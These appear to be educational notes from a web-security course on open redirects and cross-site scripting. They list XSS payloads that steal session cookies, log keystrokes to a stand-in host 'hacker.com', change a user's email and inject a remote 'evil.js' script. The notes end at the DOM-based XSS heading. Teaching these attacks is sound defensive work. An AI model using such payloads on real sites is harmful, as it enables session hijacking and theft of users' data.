 If the above bypasses do not work we can use an open redirect which is an endpoint on the server where the visitor gets redirected to another website address. So for example if we have link like **http://website.com/link?url=http/domain.com** then if we have a rule which only allows URLs beginning with http://website.com/ then we can use the above feature to redirect to another domain of our choice
## XSS
Is an injection attack where malicious JS gets injected into a web application with the intention of being executed by other users.
### Intention
What we wish the JS to actually do.
#### Proof of concept
The most simplest of payloads, used to demonstrate that we can achieve XSS on a website
```js
<script>alert('XSS');</script>
``` 
#### Session stealing
Details of a user's session, such as login tokens are often kept in cookies. The below JavaScript takes the target's cookie, base64 encodes it and then posts it to our own website to be logged.
```js
<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>
```
#### Key Logger
Anything that gets typed on the web page will be forwarded under base64 encryption to a website under our control
```js
<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );} </script>
```
#### Business logic
Much more specific than the above examples, can be used to call upon an already existing function, for example, calling a function for changing the user's email address
```js
<script>user.changeEmail('attacker@email.com');</script>
```
### Vulnerabilities
#### Reflected XSS
Happens when user data in an HTTP request is included in the webpage without any validation.
Ej.
If we have a request that looks like this 
`https://website.thm/?error=Invalid Input Detected`
for it to then represent it like this
```js
<div class="alert alert">
	<p>Invalid Input Detected</p>
</div>
```
We could then inject a script
`https://website.thm/?error=<script src="https://hacker.com/evil.js"></script>`
To execute it like this
```js
<div class="alert alert">
	<p><script src="https://hacker.com/evil.js"></script></p>
</div>
```
#### Stored XSS
XSS payload stored on the web application (ej in a database) and then gets run when other users visit the site or web page. One example of this would be a blog website that allows users to post comments but does not check them for java code, so if you include any of it inside the comment, whenever another user loads the comment the code will be executed.
#### DOM Based XSS